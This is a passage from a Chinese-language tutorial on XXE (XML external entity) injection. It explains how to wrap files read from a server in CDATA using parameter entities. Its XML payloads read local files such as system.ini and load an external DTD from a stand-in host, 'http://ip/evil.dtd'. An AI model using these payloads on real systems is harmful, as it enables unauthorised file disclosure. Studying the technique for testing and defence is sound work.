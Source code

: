 可以输入任意字符除了 ]]> 不能嵌套

用处是万一某个标签内容包含特殊字符或者不确定字符，我们可以用 CDATA包起来

那我们把我们的读出来的数据放在 CDATA 中输出就能进行绕过，但是怎么做到，我们来简答的分析一下：

首先，找到问题出现的地方，问题出现在 

```xml
...
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]>
<creds>&goodies;</creds>
```

引用并不接受可能会引起 xml 格式混乱的字符(在XML中，有时实体内包含了些字符，如&,<,>,”,’等。这些均需要对其进行转义，否则会对XML解释器生成错误)，我们想在引用的两边加上 

```
“<![CDATA[“和 “]]>”
```

,但是好像没有任何语法告诉我们字符串能拼接的，于是我想到了能不能使用多个实体连续引用的方法

**结果如下图：**

[![img](assets/1667437011402-4384afe3-1ee7-4831-aa30-1fabb2c5d197.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/实体连续引用.png)此处输入图片的描述

注意，这里面的三个实体都是字符串形式，连在一起居然报错了，这说明我们不能在 xml 中进行拼接，而是需要在拼接以后再在 xml 中调用，那么要想在 DTD中拼接，我们知道我们只有一种选择，就是使用 参数实体

**payload:**

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 

<roottag>&all;</roottag>
```
